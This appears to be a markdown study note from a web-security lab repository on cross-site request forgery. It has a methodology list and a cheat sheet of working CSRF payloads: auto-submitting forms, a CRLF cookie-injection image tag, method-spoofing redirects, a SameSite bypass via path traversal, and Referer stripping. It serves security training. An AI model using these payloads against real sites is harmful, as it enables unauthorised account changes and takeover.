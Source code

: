 # CSRF

## Key Terms

```
- Engagment tools -> Generate CSRF PoC (Burp Professional)
- SameSite: 
	-> Lax (default depends browser) -> only GET
	-> Strict -> only same site requests
	-> None -> secure flag required (https)
	
- \r\n -> %0d %0a
- Method spoofing -> search engine, e.g> _method=POST , @method('POST'), method=POST etc
```

## Most important labs


- [CSRF bypassing SameSite=Strict restriction via redirect + path traversal + CSRF](SameSite-Strict-bypass-via-client--side-redirect(Redirect+Path-Traversal+CSRF).md)

- [CSRF bypassing SameSite=Lax via method spoofing](SameSite-Lax-bypass-via-method-override-(method-spoofing).md)

- [CSRF via Header Injection In Duplicated Cookie (csrf+cstfKey matches)](CSRF+Header-injection-where-token-is-tied-to-non-session-cookie.md)


## Metodology

```bash
- Try switch POST to GET
- Remove csrf token
- Token not tied to account -> Try valid (our) csrf token
- Cookie ->
    > csrf token + username/email
    > try duplicate cookie %0d %0a + Header Injection
- Same cookie work in differents subdomains
- No same-site? -> after 2 mins same-site = lax
- Same-Site = strict? -> search redirect 
- Try remove Refered header
  ```

![CSRF-MAP-CASES](/04-Screenshots/CSRF-map.png)


#### Cheat Sheet

```js

// CSRF NO DEFENSES  / TRY WITH GET INSTEAD POST
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF TOKEN NO TIED COOKIE SESSION
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF + Header injection - csrf token tied to csrfKey
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<img src="https://<IP>/?search=test%0d%0aSet-Cookie:%20csrfKey=<CSRF-KEY-MATCH>%3b%20SameSite=None" onerror="document.forms[0].submit()">
//
// SAME-SITE LAX (DEFAULT) + METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
//
// SAMESITE STRICT BYPASS VIA CLIENT-SIDE REDIRECT
<script>
    location="<IP>/post/comment/confirmation?postId=../../my-account/change-email?email=pwnd@pwned.com%26submit=1"
</script>
//
// CSRF where Referer validation depends on header being present (add this to normal csrf to remove Refered header)
<meta name="referrer" content="no-referrer">
//
// CSRF with broken Referer validation
Referrer-Policy: unsafe-url (http header)

<form class="login-form" name="change-email-form" action="https://<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
   history.pushState("", "", "/?0ad0008e0432189380d1444800d90040.web-security-academy.net/")
    document.forms[0].submit();
</script>

// METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

